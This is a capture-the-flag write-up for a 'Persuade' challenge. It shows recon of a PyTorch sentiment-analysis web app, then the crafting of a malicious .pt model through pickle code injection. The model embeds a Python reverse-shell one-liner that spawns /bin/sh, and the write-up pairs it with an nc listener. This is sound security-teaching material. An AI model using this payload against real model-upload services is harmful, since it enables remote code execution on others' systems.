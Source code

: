 # Persuade CTF :arrow_forward: Solution

Lets explore the application :eyes:, it has an Upload and Analyze function. Application is expecting file with .pt extension. With a bit of googling we can know that .pt files are machine learning models created with PyTorch.

Looking at the Analyze function, we have the option to select the already available model "safe_model.pt" from dropdown menu and input a statement for sentiment analysis :computer:.

![Alt text](../Images/Web_App1.PNG?raw=true "Web_App1")

![Alt text](../Images/Web_App2.PNG?raw=true "Web_App2")

Well, that's it. We just know application can do sentiment analysis on user inputs on custom models provided by the user or its on in-build model. But we don't know what model is already available in the application expect its name, which is a custom name and of no use :no_good: for us.

Hmmm... Maybe we will start with a normal dirb to get more info, if application is hiding :alien: something in its directories.

![Alt text](../Images/Dirb_Scan.PNG?raw=true "Dirb_Scan")

Looks like application has robots.txt :page_facing_up:, Ah classic..

![Alt text](../Images/Robots_txt.PNG?raw=true "Robots_txt")

Base64 encoded string (L2JhY2tlbmRfZG9jcy9teWZpbGUudHh0==) sure looks interesting, lets decode it.

![Alt text](../Images/base64.PNG?raw=true "base64")

Yep, its an URL path to a txt file, will access the same in browser.

![Alt text](../Images/backend_docs.PNG?raw=true "backend_docs")

This looks like a break through. This can be actual name of the model used in the application. Only one way to know. A quick google search :mag: reveals cardiffnlp/twitter-roberta-base-sentiment is model available in https://huggingface.co/cardiffnlp/twitter-roberta-base-sentiment :boom:. 

That's again good news, at least its not a rabbit hole :rabbit:. And huggingface has code to download and use the model. 

![Alt text](../Images/huggingface.PNG?raw=true "huggingface")

Lets download the model. Had been always in love :sparkling_heart: with Google Colab for running code related to machine learning.

```python
#Note: This code works well in Google Colab
  
!pip install -q torch==2.0.1
!pip install -q transformers==4.31.0
!pip install -q scipy==1.11.1

import torch
import os
from transformers import AutoModelForSequenceClassification

# Save a model for sentiment analysis
model_directory = "SavedModels"
if not os.path.isdir(model_directory):
    os.mkdir(model_directory)

safe_model_path = os.path.join(model_directory, "saved_model.pt")

task = "sentiment"
MODEL = f"cardiffnlp/twitter-roberta-base-{task}"
# PT
model = AutoModelForSequenceClassification.from_pretrained(MODEL)
torch.save(model,safe_model_path)
```

Now we have the model (saved_model.pt) which is used by the application in its backend. What's next :question: Remember how we identified in beginning that .pt files are machine learning models created with PyTorch. Maybe exploring PyTorch gives us some hints :zap:. Two particular methods (torch.save https://pytorch.org/docs/stable/generated/torch.save.html & torch.load https://pytorch.org/docs/stable/generated/torch.load.html) from PyTorch looks interesting. Below snippet is taken from PyTorch docs which tells us while a model is being loaded in the application PyTorch uses pickle module :file_folder: for deserializing the model file.

![Alt text](../Images/torch_issue.PNG?raw=true "torch_issue")

If you are into security domain, you should know how dangerous :skull: pickle module can be. Back into our CTF, we know application accepts custom model file from user and load that file for sentiment analyzes using PyTorch. Maybe the downloaded model is already malicious :japanese_ogre:, lets make sure its not using modelscan https://github.com/protectai/modelscan. 

`modelscan -p safe_model.pt`

![Alt text](../Images/modelscan.PNG?raw=true "modelscan")

Its not a malicious model after all :exclamation:. But we know there is a possibility for us to make a malicious model file with PyTorch and pickle module. Yet how can we make a model? :thought_balloon: We don't have enough training data or even enough hardware requirements to build and train a model. No worries, we can leverage modelscan's https://github.com/protectai/modelscan/blob/main/notebooks/utils/pickle_codeinjection.py to build a malicious model. We can tweak the saved model (saved_model.pt) to have malicious character. Lets head into Colab once more and execute below code blocks in same notebook you used to download safe_model.pt

`!git clone https://github.com/protectai/modelscan.git`

```python
#Note: This code works well in Google Colab

from modelscan.notebooks.utils.pickle_codeinjection import PickleInject, get_payload

command = "system"
malicious_code = """python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    """

unsafe_model_path = os.path.join(model_directory, "unsafe_model_pyshell.pt")

payload = get_payload(command, malicious_code)
torch.save(
    torch.load(safe_model_path),
    f=unsafe_model_path,
    pickle_module=PickleInject([payload]),
)
```

And we got our malicious model (unsafe_model_rshell.pt) :space_invader:. Lets try that in the application. Before that make sure, you have a listener up `nc -lvnp 9000`

Hurray :sunglasses:, once we upload model unsafe_model_rshell.pt in application and select that model to run the sentiment analysis on a statement, we can see the application loads our model with torch.load which unpickles our arbitrary code in model and gives us a reverse shell plus proper sentiment analysis result in web application. 

![Alt text](../Images/Unsafemodel_1.PNG?raw=true "Unsafemodel_1")

![Alt text](../Images/Unsafemodel_2.PNG?raw=true "Unsafemodel_2")
